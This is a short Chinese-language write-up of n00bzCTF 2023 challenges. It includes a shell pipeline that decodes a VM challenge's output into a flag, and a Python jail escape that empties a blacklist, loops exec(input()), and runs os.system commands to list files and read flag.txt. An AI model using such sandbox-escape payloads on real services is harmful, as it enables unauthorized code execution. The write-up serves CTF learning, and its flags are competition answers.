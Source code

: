 
### VM
给了两个文件`vm`和`code`
可以通过`vm code` 通过读取文件获取操作码来执行命令
```bash
./vm code < /dev/zero | xargs | python -c 'print("".join([chr(int(x)) for x in input().split()]))'
n00bz{x0r_XoRR_xOR}
```

# pwn

# crypto

# Misc
### Big Blacklist
#python_escape 
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20230611034527.png)


---
没想到可以删除blacklist,,,
```python
#删除黑名单
for i in range(len(blacklist)):blacklist.pop()
#执行多行命令
while True:exec(input())
#执行
  import os
os.system('ls')
flag.txt
jail.py
os.system('cat flag.txt')
n00bz{blacklist.pop()_ftw!_7a5d2f8b}
```
## *相关wp*
https://github.com/n00bzUnit3d/n00bzCTF2023-OfficalWriteups



2023-06-10   21:34
